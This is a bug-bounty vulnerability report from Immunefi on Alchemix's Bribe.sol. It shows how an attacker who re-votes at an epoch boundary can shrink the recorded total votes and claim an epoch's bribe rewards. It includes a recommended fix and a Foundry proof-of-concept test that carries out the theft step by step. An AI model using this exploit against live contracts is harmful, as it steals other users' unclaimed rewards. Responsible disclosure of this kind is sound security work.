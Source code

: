 
# Wrong timestamp for totalVoting

Submitted on Mon May 06 2024 22:17:29 GMT-0400 (Atlantic Standard Time) by @cryptoticky for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #30860

Report type: Smart Contract

Report severity: Critical

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Bribe.sol

Impacts:
- Theft of unclaimed yield
- Manipulation of governance voting result deviating from voted outcome and resulting in a direct change from intended effect of original results

## Description
## Brief/Intro
The attacker can change `totalVoting` at the first second of a new epoch and steal all reward for an epoch.

## Vulnerability Details
```
    /// @inheritdoc IBribe
    function earned(address token, uint256 tokenId) public view returns (uint256) {
        ...
        Checkpoint memory cp = checkpoints[tokenId][_endIndex];
        uint256 _lastEpochStart = _bribeStart(cp.timestamp);
        uint256 _lastEpochEnd = _lastEpochStart + DURATION;
        uint256 _priorSupply = votingCheckpoints[getPriorVotingIndex(_lastEpochEnd)].votes;

        // Prevent divide by zero
        if (_priorSupply == 0) {
            _priorSupply = 1;
        }

        if (block.timestamp > _lastEpochEnd) {
            reward += (cp.balanceOf * tokenRewardsPerEpoch[token][_lastEpochStart]) / _priorSupply;
        }

        return reward;
    }
```
If an attacker call `Voter.distribute` at `_lastEpochStart + DURATION`, then `Bribe.resetVoting` function is triggered and `totalVoting` is updated to `0`.
And then if the attacker call `Voter.vote` function the same params (or tokenId with less votingPower), then `Bribe._writeVotingCheckpoint` is triggered and `votingCheckpoints[getPriorVotingIndex(_lastEpochEnd)].votes` is updated with the new votes.
And the attacker claim the reward at the next block before other users claim.
The smaller the new vote amount, the more rewards the attacker can steal.

## Impact Details
The attacker can steal reward and other users can't claim the reward.

## Recommandation 
Bribe.sol: 268 line
```
uint256 _priorSupply = votingCheckpoints[getPriorVotingIndex(_lastEpochEnd)].votes;
```
to 
```
uint256 _priorSupply = votingCheckpoints[getPriorVotingIndex(_lastEpochEnd) - 1].votes;
```
        
## Proof of concept
## Proof of Concept

```
// SPDX-License-Identifier: GPL-3
pragma solidity ^0.8.15;

import "./BaseTest.sol";

contract BribePoC is BaseTest {
    uint256 constant DURATION = 2 weeks;
    uint256 constant SECONDS_PER_BLOCK = 12;
    uint256 public epochTime;
    uint256 public epochBlock;

    function setUp() public {
        setupContracts(block.timestamp);
        epochTime = minter.activePeriod();
        epochBlock = block.number;
    }

    function goNextEpoch() private {
        epochTime = epochTime + DURATION;
        epochBlock = epochBlock + DURATION / 12;
        hevm.warp(epochTime);
        hevm.roll(epochBlock);
    }

    function testBugPriorBalanceIndex() public {

        address bribeAddress = voter.bribes(address(sushiGauge));
        address[] memory pools = new address[](1);
        pools[0] = sushiPoolAddress;
        uint256[] memory weights = new uint256[](1);
        weights[0] = 10000;



        // go epoch 1
        goNextEpoch();

        // at start time of epoch 1
        uint256 targetTokenId = createVeAlcx(admin, TOKEN_1, MAXTIME, false);
        uint256 userTokenId = createVeAlcx(beef, TOKEN_1 * 1000, MAXTIME, false);

        voter.distribute();

        createThirdPartyBribe(bribeAddress, bal, TOKEN_100K);

        hevm.prank(admin);
        voter.vote(targetTokenId, pools, weights, 0);

        hevm.prank(beef);
        voter.vote(userTokenId, pools, weights, 0);

        // totalVoting = (1 + 1000) * votingPowerPerTokenAtMaxtime = 1001 * votingPowerPerTokenAtMaxtime
        // reward expected for targetTokenId = 100K * 1 / 1001 = 100/1001 K

        // go epoch 2
        goNextEpoch();

        // at start time of epoch 2
        voter.distribute();

        createThirdPartyBribe(bribeAddress, bal, TOKEN_100K);

        // create a new token with same amount
        uint256 supportTokenId = createVeAlcx(admin, TOKEN_1, MAXTIME, false);

        hevm.prank(admin);
        // at start time of epoch 2
        voter.vote(supportTokenId, pools, weights, 0);
        // after this tx, the totalVoting = 1 * votingPowerPerTokenAtMaxtime
        // earnedAmount = 100K * 1 / 1 = 100 K
        // it means that the smaller the voting power of the supportTokenId, the more rewards it can steal.
        // but this is not calculated because of block.timestamp == _lastEpochEndthis in Bribe.sol
        //     if (block.timestamp > _lastEpochEnd) {
        //          reward += (cp.balanceOf * tokenRewardsPerEpoch[token][_lastEpochStart]) / _priorSupply;
        //     }
        // so the attacker waits for the next block
        hevm.warp(block.timestamp + SECONDS_PER_BLOCK);
        hevm.roll(block.number + 1);

        // in the second block of epoch 2
        address[] memory bribes = new address[](1);
        bribes[0] = address(bribeAddress);
        address[][] memory tokens = new address[][](1);
        tokens[0] = new address[](1);
        tokens[0][0] = bal;

        uint256 beforeBalOfAdmin = IERC20(bal).balanceOf(admin);

        hevm.prank(admin);
        voter.claimBribes(bribes, tokens, targetTokenId);

        uint256 deltaBalOfAdmin = IERC20(bal).balanceOf(admin) - beforeBalOfAdmin;

        // The success means the attacker stole all reward of epoch 1
        // In the Bribe contract, rewards for other users who have not claimed for a long time, including rewards from new epoch, may remain.
        // The attacker can steal all these funds.
        assertEq(TOKEN_100K, deltaBalOfAdmin, "The attack is failed");
    }
}
```